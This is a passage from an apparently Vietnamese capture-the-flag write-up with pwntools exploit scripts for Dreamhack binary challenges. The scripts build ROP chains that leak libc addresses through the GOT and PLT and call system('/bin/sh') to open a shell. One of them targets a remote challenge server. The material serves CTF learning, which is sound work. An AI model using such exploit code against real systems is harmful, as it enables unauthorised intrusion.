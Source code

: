 # read(0, read_got, ...)
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
payload += p64(read_plt)

# read("/bin/sh\x00") -> system("/bin/sh")
payload += p64(pop_rdi) + p64(read_got + 0x8)
payload += p64(ret) + p64(read_plt)

p.sendafter(b'Buf: ', payload)

read = u64(p.recvn(6) + b'\x00' * 2)
lb = read - libc.symbols['read']
system = lb + libc.symbols['system']

p.send(p64(system) + b'/bin/sh\x00')

p.interactive()
```

------------

7 . basic_rop_x64
------

1 bài basic ret2libc nên skip

![image](https://hackmd.io/_uploads/H1D-vBPN1e.png)

```
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./basic_rop_x64',checksec=False)
libc = ELF('./libc.so.6')
p = remote('host3.dreamhack.games', 21226)
#p = process()
payload = b'a'*72
payload += p64(0x0000000000400883)
payload += p64(exe.got.read)
payload += p64(exe.plt.puts)
payload += p64(exe.sym.main)
p.send(payload)
p.recvuntil(b'a'*64)
leak = u64(p.recv(6)+b'\x00\x00')
print("leak: ",hex(leak))
libc.address = leak - libc.sym.read
print("libc address: ",hex(libc.address))
print("system: ",hex(libc.sym.system))
print("bin sh: ",hex(next(libc.search('/bin/sh\x00'))))
payload = b'a'*72
payload += p64(0x0000000000400883+1)
payload += p64(0x0000000000400883)
payload += p64(next(libc.search('/bin/sh\x00')))
payload += p64(libc.sym.system)
p.send(payload)
p.interactive()
```


----------


```